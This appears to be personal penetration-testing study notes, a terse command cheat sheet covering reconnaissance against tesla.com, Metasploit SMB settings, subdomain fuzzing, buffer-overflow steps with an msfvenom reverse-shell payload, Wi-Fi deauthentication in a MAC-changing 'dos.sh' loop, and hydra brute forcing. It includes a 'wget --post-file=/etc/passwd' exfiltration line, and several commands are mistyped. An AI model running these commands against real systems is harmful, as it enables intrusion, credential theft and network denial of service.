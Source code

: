 
theharvestor -d tesla.com -l 500 -b google.com      (domain, searchthrough)
bluto


crt.sh       (website)
%tesla.com
wappalyzer (firefox extension) -> tesla.com>
false information possibility
whatweb -v tesla.com
buildweb

physical asssessment - google map
wireshark&



SYN 
SYN ACK
ACK
SYN
SYN ACK
RST          (Just Kidding)



Also check UDP not only TCP
ls /usr/share/nmap/scripts/
nmap -p 443 --script==all
nmap -p 443 --script==ssl-enum-ciphers tesla.com
dpkg -i < Ness...>
/etc/init.d/nessusd start
https://kali:8334


netdiscover -r < ip address (:0/24)>


python -m SimpleHTTPServer 80
wget < https://192...>< filename.txt>
nc -nvlp 8081
wget --post-file=/etc/passwd < ip address>
windows cmd:
 certutil -urlcache -f < https://192.168.../secrets.txt> secrets.txt
python -m pyftpdlib -p 21
    ftp < ip address>

set rhosts < ip address>
set smbdomain marvel
set smbpass Password1
set smb fcastle
set target 2
run 

upload
download



cd /opt
sudo git clone < link to pimpmykali>
sudo ./pimpmykali



sudo apt install docker-compose
sudo apt install docker.io
unzip < file name>
sudo docker-compose up
sudo systemctl stop apache2
sudo docker ps -a
sudo docker stop < address>

ffuf
sudo apt install subfinder
assetfinder < webiste name>
assertfinder < webiste name> | grep < website name> | sort -u > azena.txt
amass enum -d < file name> > < filename>
httprobe
cat < filename> | grep < filename> | sort -u | httprobe -prefer-https | grep https > < filename>
gowitness file -f < filename> -P azenapics --no-http
sudo apt install seclist
ffuf -request < filename> -request-proto http -w /usr/share/seclists/Passwords/< filename> -fs 1814
ffuf -u < link> -w num.txt -mr 'admin'
curl < api website link>
curl --proxy < api website link> -k
curl -X -POST --proxy < api website link> -k -d "{name:'cheese cat'}"
curl -X POST -H "Content-Type: application/json" -d '{"username":"jeremy" , "password":"cheescake"   }'
echo < above command generated link> | base64 -d 
curl -X GET < link>
curl -X GET < link>



usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 -q 386F4337 
Control EIP
gedit < filename>
!mona modules
locate nasm_shell
copy link (long one -> execute)
nasm> JMP ESP
!mona find -s "xff\xe4" -m essfunc.dll  

msfvenom -p windows/shell_reverse_tcp LHOST=< ip address> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"




metasploit modules
auxiliary - Information gathering
encorder - encode the payload
evasion - compress & bypass AV
exploit - 
nops - Memory explotation
payload - Reverse shell, execting commands
post - After exploitation happen , Backdoor



apt-get install aircrack-ng
apt-get install macchanger
man aircrack-ng
macchanger --help
ifconfig wlo1 down
iwconfig wlo1 mode monitor
ifconfig wlo1 up
iwconfig 
iwconfig wlo1
iwconfig wlo1 | grep mode
iwconfig wlo1 | grep Mode
airmon-ng check wlo1
kill < Net work manager>
airmon-ng check kill
airodump-ng wlo1
aireplay-ng
aireplay-ng -O 0 -a < mac address>  (0 = loop, 1 = Once)
iwconfig wlo1 channel
maccchanger -s wlo1
macchnager -r wlo1
ifconfig wlo1 down
macchanger -r wlo1
ifconfig wlo1 up
macchanger -s wlo1
tochds.sh
nano.sh
-------------
while True:
do
    aireplay-ng 0 10 < ip address> wlo1
    ifconfig wlo1 down
    macchanger -r wlo1 | grep NEW mac
    iwconfig wlo1 mode monitor
    ifconfig wlo1 up
    sleep 5
done
-----------
chmod +x dos.sh
dos.sh



hydra -h 
hydra -L < path> -P  < path>  < ip adress> http-form-psot "/bruteforce/login.php:uname=^USER^&pass=^PASS^":failure         (l=1,L=List)
crunch -h
crunch 3 5 abcde        (min,max,characters)



service tor status
service tor start
proxychains firefox www.duckduckgo
crontab --help
@reboot macchanger -r eth0

